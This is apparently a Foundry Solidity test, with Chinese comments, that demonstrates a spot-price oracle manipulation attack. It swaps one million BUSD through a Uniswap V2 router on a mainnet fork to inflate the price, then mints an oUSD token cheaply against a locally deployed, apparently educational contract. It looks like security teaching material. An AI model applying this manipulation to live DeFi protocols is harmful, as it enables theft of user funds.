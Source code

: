 ```js
    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // fork指定区块
        vm.createSelectFork(MAINNET_RPC_URL,16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // 攻击预言机
        // 0. 操纵预言机之前的价格
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore);
        // 给自己账户 1000000 BUSD
        uint busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. 用busd买weth，推高顺时价格
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. 操纵预言机之后的价格
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter);
        // 4. 铸造oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this))/10e18);
    }

    // Swap BUSD to WETH
    function swapBUSDtoWETH(uint amountIn, uint amountOutMin)
        public
        returns (uint amountOut)
    {
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

        uint[] memory amounts = router.swapExactTokensForTokens(
            amountIn,
            amountOutMin,
            path,
            alice,
            block.timestamp
        );

        // amounts[0] = BUSD amount, amounts[1] = WETH amount
        return amounts[1];
    }
}
```
